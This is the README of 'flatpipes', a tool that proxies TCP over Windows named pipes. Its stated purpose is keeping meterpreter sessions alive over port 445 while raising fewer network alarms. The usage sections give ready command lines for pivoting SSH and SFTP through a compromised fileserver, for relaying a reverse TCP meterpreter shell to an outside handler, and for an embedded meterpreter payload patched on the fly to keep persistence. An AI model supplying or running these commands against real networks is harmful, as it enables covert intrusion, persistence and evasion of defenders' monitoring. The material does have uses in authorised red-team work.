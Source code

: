 ![Logo](https://github.com/dxflatline/misc/raw/master/flatpipes-help.png)

# flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

Since it seems it can help in various situations, let's list a few:


#### Usage - TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server) we create two pipes "pipename_s2c" & "pipename_c2s" and as soon as pipe negotiation is ok, we open a TCP listener at 10001: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 10001
```

On the 2nd Windows host (pipe client) we just connect to the pipe(s) created previously on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too: 
```
flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001
```

Finally, netcat on the two hosts on their listeners and chat with yourself.


#### Usage - Bring a remote port here

Let's suppose you have access on the MS Fileserver (x.x.x.x) through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system (y.y.y.y) in the Fileserver's LAN but we can only connect to MS Fileserver 445

On the MS Fileserver (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it will TCP connect to the SSH server (y.y.y.y) in the LAN. All IO is through the flatpipes: 
```
flatpipes.exe pserver sclient pipename . y.y.y.y 22
```

On the jumphost we PIPE connect to the MS fileserver (x.x.x.x), and immediately spawn a TCP listener on localhost 22: 
```
flatpipes.exe pclient sserver pipename x.x.x.x 127.0.0.1 22
```

Just ssh on 127.0.0.1 22 from the jumphost  and you are through the town portal


#### Usage - Send a local port there

The reverse of the above example, useful to download additional tools through eg sftp

On the Server (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it spawn a TCP listener on localhost 22: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 22
```

On the jumphost we PIPE connect to the Server (x.x.x.x), and as soon as pipe negotiation is ok, it will TCP connect to our sFTP file repo (y.y.y.y). All IO is through the flatpipes: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 22
```

SSH on 127.0.0.1 22 from the Server


#### Usage - Reverse TCP meterpreter through pipes (own payload)

On the MS Fileserver (x.x.x.x) again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321
```

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321
```

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.


#### Usage - Reverse TCP meterpreter through pipes (embedded payload)

Same as above but the reverse meter payload is embedded in the flatpipes

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter. Note the "revmeter" keyword: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter
```

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler at y.y.y.y: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321
```

Important note: If you meterpreter listener in waiting on eg 12345 just use the following:
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 12345
```
The first command with "monkey-patch" the meterpreter bytecode on-the-fly to make it locally connect to 54321. At the jumphost, the 12345 can be used without any interruption. It is like NAT'ting a port on a firewall

---

#### TODO
* Supports one connection, think of ways to do multiple connection handling
* Custom payload option (undecided on the transfer format b64?)
* Exception handling. Asap when pipe auth does not work

---

I hope it will help. Comments are welcome / looking for feedback.

<sub>PS: I don't know exactly (or have time to read) the details of CreateNamedPipe access controls. So I assume from MSDN that by using NULL security descriptor we allow RW access to Admins/System/Creator and R to everyone/anon. On the workstation that acts as a pipe client I test using eg *runas /user:server\tester /netonly "flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001"*. What happens with */netonly* is that you force an ntlm2 challenge response for all the pipe access requirements of the calls issued by flatpipes.</sub>
